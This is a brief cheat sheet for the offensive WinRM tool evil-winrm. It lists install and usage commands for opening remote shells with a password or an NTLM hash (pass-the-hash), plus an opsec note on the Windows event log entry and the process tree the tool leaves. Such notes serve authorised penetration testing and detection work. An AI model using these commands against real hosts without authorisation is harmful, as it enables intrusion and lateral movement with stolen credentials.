 ### Source
https://github.com/Hackplayers/evil-winrm  

### Install
```
gem install evil-winrm
```

### Start shell on host (port 5985,5986)
```
evil-winrm -i <ip> -u <user> -p <password>
```

### Using ntlm hash
```
evil-winrm -i <ip> -u <user> -H <ntlmHash>
```

### Pass the hash
```
evil-winrm -u <user> -H <Hash> -i <IP>
```

### Opsec considerations
```
-WMI/Operational (5857)
```

### Running processes
```
wsmprovhost.exe
└── sc.exe
    └── conhost.exe
```

